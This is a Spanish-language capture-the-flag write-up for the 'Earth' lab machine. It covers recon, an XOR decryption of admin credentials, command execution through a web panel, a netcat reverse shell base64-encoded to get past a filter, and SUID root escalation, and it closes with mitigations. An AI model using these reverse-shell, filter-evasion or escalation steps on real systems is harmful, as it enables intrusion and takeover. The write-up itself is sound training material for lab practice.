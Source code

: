 # CTF EARTH LOCAL  
**Objetivo:** Linux 192.168.131.130 (Earth Local)  

---

## SECUENCIA DE ATAQUE EXPLICADA  

### **FASE 1: PREPARACIÓN**  
```bash
ip a
```
> Verificamos nuestra IP local para identificar la interfaz en uso (eth0).  

```bash
netdiscover -i eth0
```
> Escaneamos la red para encontrar la IP objetivo. Resultado: **192.168.131.130**.  

---

### **FASE 2: RECONOCIMIENTO**  
```bash
sudo nmap -sV -sC -T4 192.168.131.130
```
> Escaneo de servicios y versiones con scripts básicos. Puertos encontrados:  
> - 22/tcp → SSH (OpenSSH 8.6)  
> - 80/tcp → HTTP (Apache 2.4.51)  
> - 443/tcp → HTTPS (Apache 2.4.51 con SSL y certificados para earth.local y terratest.earth.local)  

**Ajuste de /etc/hosts**  
```
192.168.131.130 earth.local terratest.earth.local
```
> Esto permite acceder por nombre de dominio en vez de IP.  

---

### **FASE 3: ENUMERACIÓN WEB**  
```bash
gobuster dir -u http://earth.local/ -w /usr/share/wordlists/dirb/common.txt
```
> Descubrimos `/admin` → Panel de login.  

```bash
gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/common.txt
```
> Detectamos `/robots.txt` que apunta a `/testingnotes.txt`.  

**Contenido notes:**  
- Cifrado usado: XOR  
- Usuario: `terra` (para el panel admin)  
- Archivo `testdata.txt` usado como clave de prueba.  

---

### **FASE 4: OBTENCIÓN CREDENCIALES**  
> Vamos a `testdata.txt` y lo usamos como **KEY** en [CyberChef](https://gchq.github.io/CyberChef/).  
> Método: XOR, salida Hex.  
> Desencriptamos los mensajes ocultos en la página principal de `earth.local`.  

**Resultado:**  
```
Usuario: terra  
Pass: earthclimatechangebad4humans
```

---

### **FASE 5: ACCESO INICIAL**  
> Entramos a `http://earth.local/admin` con credenciales obtenidas.  
> Tenemos un campo de ejecución de comandos como usuario `apache`.  

```bash
whoami
ls /var/earth_web
cat /var/earth_web/user_flag.txt
```
> Obtenemos **FLAG USER**.  

---

### **FASE 6: SHELL REVERSA**  
En máquina atacante:  
```bash
nc -lvnp 4444
```
> Ponemos un listener para recibir la conexión.  

En el panel web:  
```bash
echo 'nc -e /bin/bash 192.168.131.128 4444' | base64
```
> Convertimos el comando a Base64 para evadir el filtro.  

```bash
echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTMxLjEyOCA0NDQ0Cg==' | base64 -d | bash
```
> Decodificamos y ejecutamos → conexión establecida.  

Mejoramos la shell:  
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

---

### **FASE 7: ESCALADA DE PRIVILEGIOS**  
```bash
find / -perm -u=s 2>/dev/null
```
> Encontramos binario SUID `/usr/bin/reset_root`.  

- Lo analizamos con `ltrace` → requiere 3 ficheros inexistentes.  
- Creamos los ficheros:  
```bash
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe
```
- Ejecutamos de nuevo → contraseña root reseteada a `Earth`.  

```bash
su root
cat /root/root_flag.txt
```
> Obtenemos **FLAG ROOT**.  

---

## RESUMEN VULNERABILIDADES  
- **Credenciales en código fuente cifrado** (XOR)  
- **Panel admin** accesible sin restricciones de IP  
- **Ejecución remota de comandos**  
- **SUID vulnerable** que permite resetear contraseña root  

---

## MEDIDAS DE MITIGACIÓN  
- Eliminar credenciales de código  
- Restringir panel admin por IP  
- Eliminar binarios SUID innecesarios  
- Auditoría de cifrados y backups

---

## EVIDENCIAS  
- FLAG USER: `/var/earth_web/user_flag.txt`  
- FLAG ROOT: `/root/root_flag.txt`  
- Credenciales: `terra / earthclimatechangebad4humans`  
- Archivos clave: `testdata.txt`, `reset_root`

 <div style="text-align: center;">
  <img src="https://raw.githubusercontent.com/Zyanetralys/profile/refs/heads/main/planeterath.jpg" width="550" alt="Earth">
</div>
